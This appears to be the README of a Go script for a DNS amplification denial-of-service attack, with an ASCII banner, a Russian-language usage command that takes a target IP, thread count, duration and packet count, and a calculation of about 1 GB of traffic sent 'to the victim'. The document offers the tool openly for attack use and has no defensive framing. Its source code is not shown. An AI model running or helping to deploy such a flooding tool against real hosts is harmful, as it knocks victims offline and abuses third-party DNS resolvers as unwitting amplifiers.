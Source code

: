     ╔═══════════════════════════╗
    ║   ┏━┓╻ ╻╺┓ ┏━┓┏━╸┏━┓╺┓ 	║	
	║	┗━┓┃╻┃ ┃ ┏━┛┣╸ ┏━┛ ┃ 	║
	║	┗━┛┗┻┛╺┻╸┗━╸╹  ┗━╸╺┻╸   ║
    ║     DNS Amplification     ║
    ╚═══════════════════════════╝

    Script for amplification DOS attack

# Для 1 ГБ трафика к жертве:
```bash
sudo go run main.go -target {Target IP} -threads 200 -duration 300 -count 2000000
```

# Расчет:
2,000,000 × 500 байт = 1,000,000,000 байт ≈ 954 МБ ≈ 0.95 ГБ
